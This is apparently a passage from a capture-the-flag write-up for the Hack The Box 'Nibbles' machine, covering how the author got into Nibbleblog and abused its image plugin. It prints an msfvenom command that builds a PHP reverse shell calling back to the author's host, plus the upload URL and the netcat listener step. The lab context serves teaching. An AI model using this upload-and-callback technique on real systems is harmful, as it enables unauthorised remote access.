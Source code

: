 ```
6- Done! you have installed Nibbleblog
```

I tried brute forcing the password using Burp's Intruder, but quickly realized that I was reverse-whitelisted.

```
Nibbleblog security error - Blacklist protection
```

Since my IP was blocked after 5 tries, I figured it was not supposed to be brute forced. I spent a long time trying to figure out what the password was supposed to be, and went through the entire blog directory to see if there were any files that hinted at the password. I eventually found out the password was `nibbles` after watching Ippsec's video because I was stuck on this part. I did not think to try `admin:nibbles` on the login page. Not the biggest fan of this part of Nibbles. It felt impossible for me to figure out without watching a video and looking at a few blogs to see what was the intended way to figure out the password.

![](\\OMV\cyber\htb\images\nibbles\nibbleblog dashboard.png)

# Exploiting the Image Plugin

Once inside the nibbleblog dashboard, I navigated to the plugin page by clicking the `Plugin` button near the top left.

![](\\OMV\cyber\htb\images\nibbles\nibbleblog plugin page.png)

Navigate to the `My image` plugin and click `Configure` on the bottom of the plugin.

![](\\OMV\cyber\htb\images\nibbles\nibbleblog image plugin.png)

The exploit was very easy to exploit. Create a PHP reverse shell payload and upload it to this plugin. I used `msfvenom` to create the payload.

```
┌──(tyco㉿4YE)-[~/htb/nibbles/scans]
└─$ msfvenom -p php/reverse_php LHOST=10.10.14.15 LPORT=4444 -f raw > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3052 bytes
```

![](\\OMV\cyber\htb\images\nibbles\uploading php shell.png)

Click `Save Changes` at the bottom to upload the payload. There will be errors at the top right corner when it is uploaded successfully. Do not worry about it. Set up a netcat listener on Kali.

![](\\OMV\cyber\htb\images\nibbles\error during upload.png)

Navigate to `http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image` to get the payload to create a reverse shell. I kept getting disconnected from my reverse shell, so I created *another* payload within my reverse shell.
